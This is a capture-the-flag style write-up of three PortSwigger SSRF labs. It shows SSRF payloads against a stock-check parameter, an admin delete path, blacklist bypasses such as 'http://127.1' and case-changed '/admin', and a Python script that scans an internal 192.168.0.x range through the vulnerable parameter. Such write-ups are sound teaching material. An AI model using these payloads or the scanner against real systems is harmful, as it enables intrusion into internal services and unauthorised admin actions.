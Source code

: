 # Server Side Request Forgery 

<h3> Lab: Basic SSRF against the local server </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/32997785-74fe-46ec-a190-4075db32ec9c)

After going over to the web page i see this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3cd6f9f7-7910-48bc-9d12-a47ac10ad906)

Checking a random product shows this stock get function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6cc8f8b0-d8cd-49de-839c-b42962b14a67)

Intercepting the request and clicking it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2f4f356c-2839-4157-946c-f23483913339)

It is loading the stock value from an external url 

Since the aim of this challenge is to delete the user *carlos* on the */admin* directory from the internal web app let us do that
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b1d984ff-4d0e-4f13-ba52-942d409a7fa5)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fb603606-d8cf-4ee7-aeb0-f6b876f84a2b)

The path to delete it is */admin/delete?username=carlos*

Doing that works and we get challenge solved
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c5a88ce6-d848-4046-9adb-c1477d55340c)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9b984c07-8bae-4a36-adc3-4098a16b121a)


<h3> Lab: Basic SSRF against another back-end system </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1d4db110-6343-48b3-94c3-3a3a35a3cb0e)

Going over to the web app shows still the same function as the previous one
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fb7a87f4-8032-4308-aa57-e3032ff91635)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/09c8cf2d-78c5-46e5-8c88-bf5162563c83)

The aim for this challenge is to scan the internal *192.168.0.X* range for an admin interface on port *8080*, then use it to delete the user carlos

I didn't want to use burp intruder for it so i made a script for it

```python
#!/usr/bin/python3
import requests
from time import sleep
from threading import Thread

def sendRequest(url, cookie, ip):
    # Exclude ip 192.168.0.1, which is the stock API address
    if ip == '192.168.0.1':
        return

    data = {
        'stockApi': f'http://{ip}:8080/'
    }

    # Send a POST request to /product/stock, and the data is the SSRF payload
    StatusCode = requests.post(url, cookies=cookie, data=data).status_code

    # Using \r to clean previous line
    print(f'[*] Trying ip: {ip}', end='\r')

    if StatusCode != 500:
        print(f'[+] Found a valid internal ip address: {ip}')

def main():
    url = 'https://0aa60010032c1eab80b7a35b002b000e.web-security-academy.net/product/stock'
    cookie = {'session': 'OS7X5KkySnlT6ocIvQfQuvWPt10SKciB'}

    # Generate a list of IPv4 private ip addresses from 192.168.0.0 to 192.168.0.255
    ipAddressList = list()

    for lastOctet in range(256):
        ipAddressList.append(f'192.168.0.{lastOctet}')

    # For each private ip address, spawn a new thread to function sendRequest(url, cookie, ip)
    for ip in ipAddressList:
        thread = Thread(target=sendRequest, args=(url, cookie, ip))
        thread.start()

        sleep(0.1)


if __name__ == '__main__':
    main()

```

Running it gives the ip 

```
➜  Desktop python3 solve.py
[+] Found a valid internal ip address: 192.168.0.48
➜  Desktop 
```

Trying it over my proxy gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8611e4a3-100e-4f61-86bd-aa343896efcf)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2cf4a98a-590d-46d3-aa80-37599f54db87)

We can now delete the user *carlos*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/26b903b0-163f-4513-be3f-7ee33256f6f7)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/23acecf1-27da-42ef-9b37-76f3803c2be9)

<h3> Lab: SSRF with blacklist-based input filter </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/486edb3d-bc92-48e8-b78d-d526adb663de)

Moving over to the web app shows the normal function we've been seeing
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/53f9dcf8-beeb-4cc1-b70e-cd683703291b)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/555f291f-8e18-4542-bb81-3dbca2f9a461)

But when I tried accessing localhost in the stockApi variable I get an error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/953fd872-21d7-47e8-bb38-5093f103f3f6)

So we need to bypass this

I decided to try each value of what we are trying to access individually
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5452ceec-c07f-401a-aa56-67a579a4fc5b)

Trying : `http://127.1` gives `200` Ok
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c5e739a0-5c76-4e50-93c7-57bd261901c9)

But appending /admin gives an error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5b29c541-7bf5-460c-816c-7ac8e3624072)

One thing we can try here is case changing any letter of */admin* to uppercase as the web server might treat it as normal word

Doing that works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e161ad0e-51fe-45b4-80f1-149a42aed2f1)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/739bfefe-9db6-418c-8215-a6b51ef65fd7)

Now we can delete the user carlos account
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5317f144-dd12-47ac-be38-588d0e357ae6)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cb5cda62-d6fc-402a-b20b-61ccadfe486e)

